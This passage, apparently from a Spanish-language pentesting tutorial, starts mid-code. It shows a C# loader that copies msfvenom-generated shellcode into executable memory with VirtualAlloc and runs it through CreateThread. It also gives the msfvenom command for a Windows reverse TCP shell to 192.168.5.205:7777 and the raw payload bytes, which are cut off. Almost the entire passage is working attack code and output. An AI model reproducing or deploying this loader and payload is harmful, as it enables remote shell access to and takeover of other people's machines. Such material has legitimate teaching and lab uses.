 ```cs
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
};
            Console.WriteLine();
            Console.ForegroundColor = ConsoleColor.Gray;
            Console.WriteLine("Iniciando sesion reversa");

            IntPtr funcAdrr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, funcAdrr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xffffffff);

        }
    }

}
```

Dentro del `Main` lo que estamos haciendo es pegar ese `payload` que nos ha generado `msfvenom` se realizaria de la siguiente forma:

```shell
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.5.205 LPORT=7777 -f csharp
```

Info:

```
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of csharp file: 1830 bytes
byte[] buf = new byte[354] {0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
```